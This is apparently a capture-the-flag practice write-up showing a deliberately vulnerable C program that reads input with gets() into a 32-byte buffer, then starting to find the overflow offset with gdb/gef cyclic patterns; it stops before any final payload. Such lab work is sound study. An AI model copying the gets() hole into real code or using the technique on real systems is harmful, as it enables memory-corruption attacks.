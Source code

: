 ## Practice05 Solution
### 1. Check file
觀察 practice05
```
file practice05
```
![image](https://hackmd.io/_uploads/rkGgeduQ0.png)

### 2. Code Review
practice05.c
```c=
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("cat /home/hacker/flag2");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}

```
> 要讓 key = 0xcafebabe 才能取得 flag

### 3. Buffer overflow
生成隨機長字串
```
chmod +x practice05
gdb -q practice05
gef➤  gef config gef.debug True
gef➤  pattern create 50
```
![image](https://hackmd.io/_uploads/H1c3Duu7A.png)
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama

```
gef➤  run
overflow me : aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama
```
![image](https://hackmd.io/_uploads/SyzAKuOQ0.png)
